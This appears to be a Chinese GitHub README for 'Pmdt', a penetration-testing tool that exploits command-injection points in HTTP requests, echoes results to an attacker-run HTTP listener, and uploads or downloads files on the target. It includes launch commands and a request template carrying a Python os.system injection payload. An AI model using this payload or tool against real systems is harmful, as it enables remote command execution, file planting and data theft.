 ```yaml
---
title: HTTP命令执行回显工具
categories: 开发
tags:	
  - 中间件
  - 网络安全
  - 渗透测试
description: 这是一个用于HTTP命令回显的工具。
date: 2024-07-30
---
```


# 1.功能简介

1. 可针对http请求的url和body中存在命令注入的地方进行注入命令，通过开启一个HTTP监听器来回显执行命令的结果。
2. 可进行文件上传和下载。
3. 可使用request请求文本的方式来传参。

-------------------------

功能演示

# 2.启动服务

## 2.1.启动面板

- 启动面板仅需要配置**端口**参数即可。

```shell
# -p', '--port', type=RestrictedInt(1, 65536), help='this is receive port; 监听器的接收端口。
Pmdt>$ python ./echopanel.py -p 8111
```

![image-20240731105216182](E:\Projects\PycharmProjects\Pmdt\image-20240731105216182.png)

## 2.2.启动命令发送端

1. listenerIP为必填参数，填写监听面板的IP地址即可
2. port，-p 监听器启动监听的端口号
3. method , -m 回显请求方法，建议默认POST即可。
4. url， -u，存在命令注入的url路径，使用"*"号标注注入点。（仅支持get方法）
5. --path, 存在命令注入的请求包路径，默认为files文件下的request.txt文件，文件中使用"*"号标注注入点。

### 2.2.1.通过request文件进行注入POST回显

1. 默认request文件路径放在项目文件的Pmdt的files目录下即可，命名为request.txt，或者直接通过--path指定request文件的路径（当未设置url参数时默认则以request文件方式发送请求）。

```shell
>$ python .\execeval.py 192.168.100.1  -p 8111
# 192.168.100.1 和 8111 为监听面板的参数
```

![image-20240731164220532](E:\Projects\PycharmProjects\Pmdt\image-20240731164220532.png)

```ini
# request.txt 
GET /?cmd=__import__("os").system("*") HTTP/1.1
Host: 192.168.100.136:8080
Accept: application/json, text/plain, */*
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.0.0 Safari/537.36
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,ja;q=0.8,zh-TW;q=0.7
Connection: close
```

- 存在命令注入漏洞的测试文件为test/httpweb2.py，可用于测试
- 启动测试文件

![image-20240731164735399](E:\Projects\PycharmProjects\Pmdt\image-20240731164735399.png)

## 2.3.发送命令请求演示

![image-20240731165157176](E:\Projects\PycharmProjects\Pmdt\image-20240731165157176.png)

面板回显

![image-20240731165231897](E:\Projects\PycharmProjects\Pmdt\image-20240731165231897.png)

## 2.4.文件上传演示

1. 将需要上传的文件移动到files文件夹下，例如Expx.java
2. 输入upload关键词 + 上传的文件名，+上传文件要存放到目标服务器的位置以及命名文件

![image-20240731172324071](E:\Projects\PycharmProjects\Pmdt\image-20240731172324071.png)

![image-20240731171031795](E:\Projects\PycharmProjects\Pmdt\image-20240731171031795.png)

## 2.5.文件下载测试

1. 触发关键词 download，+文件绝对路径。

![image-20240731173333472](E:\Projects\PycharmProjects\Pmdt\image-20240731173333472.png)

![image-20240731175335544](E:\Projects\PycharmProjects\Pmdt\image-20240731175335544.png)

![image-20240731175346063](E:\Projects\PycharmProjects\Pmdt\image-20240731175346063.png)
